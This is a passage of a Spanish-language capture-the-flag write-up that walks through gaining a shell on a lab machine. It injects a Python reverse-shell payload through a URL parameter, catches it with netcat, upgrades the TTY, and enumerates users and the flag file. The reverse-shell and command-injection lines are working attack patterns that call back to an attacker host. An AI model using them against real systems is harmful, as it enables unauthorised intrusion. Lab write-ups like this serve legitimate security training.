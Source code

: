 Ahora nos ponemos en escucha con `netcat`para que nos llegue la shell 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

```

Esta es la siguiente url que tienes que inyectar en donde te pide la url 

```bash
http://10.10.14.9:8080/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

## Shell ruby 

Ganamos acceso

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.189] 45216
$ whoami
whoami
ruby
$ 
```

Ya estamos en una `tty` pero para que no se pierda la costrumbre

```bash
script /dev/null -c bash
stty raw -echo; fg
reset xterm
ENTER
```

```bash
bash-5.1$ export TERM=xterm
```

Hay otro usuario llamado `Henry`

```bash
bash-5.1$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
bash-5.1$
```

Solo `Henry` puede leer la flag asi que necesitamos convertirnos en ese usuario

```bash
bash-5.1$ pwd
/home/henry
bash-5.1$ ls -la
total 32
drwxr-xr-x 3 henry henry 4096 May 18 21:43 .
drwxr-xr-x 4 root  root  4096 Oct 26  2022 ..
lrwxrwxrwx 1 root  root     9 Sep 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 henry henry  220 Sep 26  2022 .bash_logout
-rw-r--r-- 1 henry henry 3526 Sep 26  2022 .bashrc
-rw-r--r-- 1 henry henry  618 May 18 21:43 dependencies.yml
drwxr-xr-x 3 henry henry 4096 May 18 21:41 .local
-rw-r--r-- 1 henry henry  807 Sep 26  2022 .profile
-rw-r----- 1 root  henry   33 May 18 20:44 user.txt
```
